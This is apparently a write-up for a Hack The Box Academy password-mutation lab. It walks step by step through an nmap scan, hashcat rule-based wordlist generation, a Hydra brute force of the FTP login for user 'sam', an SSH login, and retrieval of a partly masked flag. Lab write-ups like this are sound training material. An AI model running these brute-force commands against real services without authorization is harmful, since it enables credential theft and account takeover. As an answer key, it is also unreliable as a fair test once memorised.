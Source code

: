 ## HTB Academy: Password Attacks Module - Password Mutations Section

### Task
Create a mutated wordlist using the files in the ZIP file under "Resources." Use this wordlist to brute-force the password for the user "sam." Once successful, log in via SSH and submit the flag from `flag.txt`.

### Steps:

1. **Run Nmap Scan**
   Identify open ports and services on the target machine:
   ```bash
   nmap -sV -Pn <$target_ip>
   ```
   Example output:
   ```
   PORT    STATE SERVICE     VERSION
   21/tcp  open  ftp         vsftpd 3.0.3
   22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
   139/tcp open  netbios-ssn Samba smbd 4.6.2
   445/tcp open  netbios-ssn Samba smbd 4.6.2
   ```

2. **Create Password List and Custom Rule**
   Using the files provided in the "Resources" section, create the `password.list` and `custom.rule`:
   ```bash
   sudo nano password.list
   sudo nano custom.rule
   ```

3. **Generate Mutated Wordlist**
   Use Hashcat to generate a mutated wordlist:
   ```bash
   hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
   ```

4. **Filter Mutated Wordlist**
   Edit the mutated wordlist to filter passwords with a length of 11 or more characters:
   ```bash
   sed -n '/^[[:alnum:][:punct:]]\{11,\}$/p' mut_password.list > mut_pass.list
   ```

5. **Brute Force with Hydra**
   Use Hydra to find the password for the user "sam" on the FTP service:
   ```bash
   hydra -l sam -P mut_pass.list ftp://<$target_ip> -t 48 -v
   ```
   Example successful output:
   ```
   [21][ftp] host: 10.129.x.xxx   login: sam   password: B@t********
   ```

6. **Log in via SSH**
   Connect to the target machine using the found credentials:
   ```bash
   ssh sam@<$target_ip>
   password: B@t********
   ```

7. **Find and Retrieve the Flag**
   Search for the flag file and read its contents:
   ```bash
   find / -name "flag.txt" 2>/dev/null
   ```
   Example:
   ```bash
   /home/sam/smb/flag.txt
   cat /home/sam/smb/flag.txt
   ```
   The flag is:
   ```
   HTB{P4**_*********}
   ```

### Conclusion
This task demonstrated how to use password mutation rules to generate a custom wordlist and perform a brute-force attack to retrieve the flag. 
## Happy Hacking!



